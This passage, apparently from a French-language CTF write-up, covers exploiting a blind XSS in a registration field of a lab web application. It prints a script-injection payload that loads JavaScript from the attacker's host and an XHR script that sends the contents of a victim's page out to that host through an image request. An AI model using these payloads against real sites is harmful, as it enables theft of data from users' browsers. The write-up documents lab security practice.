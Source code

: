 * exp => expiresAt

* jti => id

* extra => claim

En cherchant un peu sur le web j'ai découvert qu'une grande partie de ces noms de variables sont très génériques (voir [JSON Web Token Claims](https://auth0.com/docs/secure/tokens/json-web-tokens/json-web-token-claims)) et je n'ai d'ailleurs pas trouvé de traitement particulier de ces données dans l'application Android (du genre exécution d'une commande, accès à des fichiers ou autre).

J'ai pensé aussi à une vulnérabilité de désérialisation mais le package *GSON* de Google qui est inclus dans l'application est réputé sûr. Il y a un advisory qui le concerne mais aucun PoC n'est disponible sur Internet.

## Man in the browser

Finalement ma logique a été de me dire que puisque *Alphonse* est intéressé par notre ADN il va forcément  le regarder. Et ça tombe bien quand on s'enregistre on passe un paramètre `dna_string`.

J'ai donc procédé à un enregistrement en spécifiant la valeur suivante :

```html
<script src="http://192.168.56.1/test2.js"></script>
```

Et après quelques minutes j'obtiens effectivement une requête prouvant que le paramètre est vulnérable à un XSS en aveugle.

La suite logique est d'exfiltrer le cookie de l'utilisateur comme j'ai pu le faire sur le CTF [RedCross de HackTheBox]({% link _posts/2019-04-13-Solution-du-CTF-RedCross-de-HackTheBox.md %}#call-me). Mais ici j'ai obtenu une réponse vide... C'est peut être dû à l'authentification par JWT que l'on a vu plus tôt ou à l'option httpOnly définie sur le cookie.

J'ai décidé de procédé autrement : je provoque une requête HTTP dans le navigateur d'*Alphonse* pour la page qui m'intéresse, j'obtiens la réponse via XHR puis j'envoie le contenu via le chargement d'une image (on ne peut pas le faire directement via XHR en raison de la *same-origin policy*).

Mon script JS devient alors le suivant :

```js
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
    if(xmlhttp.readyState == 4){
        var img = document.createElement("img");
        img.src = "http://192.168.56.1/content" + encodeURI(xmlhttp.responseText);
        document.body.appendChild(img);
    }
}
xmlhttp.open("GET","/dnanalyzer/portal/index.php");
xmlhttp.send();
```

J'obtiens alors une requête sur mon serveur web qui contient la page encodée. Une fois décodée ça ressemble à ceci :

```html
<html>                                                                                                                 
                                                                                                                       
<head>                                                                                                                 
    <meta http-equiv="refresh" content="180">
    <script src="analyze_dna.js"></script>                                                                             
</head>                                                                                                                
                                                                                                                       
<body>                                                                                                                 
```